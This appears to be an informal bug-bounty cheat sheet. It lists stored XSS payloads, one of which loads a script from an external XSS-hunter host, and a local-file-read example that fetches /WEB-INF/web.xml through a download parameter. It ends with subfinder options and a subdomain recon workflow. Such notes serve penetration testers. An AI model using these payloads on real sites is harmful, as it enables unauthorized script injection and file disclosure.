 # Payload Stored XSS
#### <img src=x onerror​=alert(origin)>
#### test“;”/></{dynamic tag}></script><script/SRC=//{xss hunter url} /  (stored xss)

# Payload LFI
Since we are working in a Java environment, I attempted to read /WEB-INF/web.xml because this file often contains a lot of useful information. By navigating to http://admin.target:8443/admin/download?fileName=/WEB-INF/web.xml, I was able to access some juicy information.! https://medium.com/@HX007/a-journey-of-limited-path-traversal-to-rce-with-40-000-bounty-fc63c89576ea


---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# subdomain finder

#### subfinder -d yourdomain_name -v  
      -d = particular one domain enumurate <br>
      -dl = Maltipull domain enumurate from a file <br>
      -o, -output string = file to write output to <br>
      -silent = show only subdomains name in output <br>
      -nW, -active = display active subdomains only <br>
      -oI, -ip = include IP address and domain name in output (-active only) <br>
      -max-time int = minutes to wait for enumeration results (default 10) <br>
      -ei, -exclude-ip = exclude IPs from the list of domains <br>


 go-to tools 
#Subfinder, 
#Amass, 
#Bbot 
to gather subdomains.
==================================================
 filtered the live ones with #httpx.

using the 
#"-sc — title" 
flags because they show the status code and page title, which helps me spot interesting subdomains faster. 
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
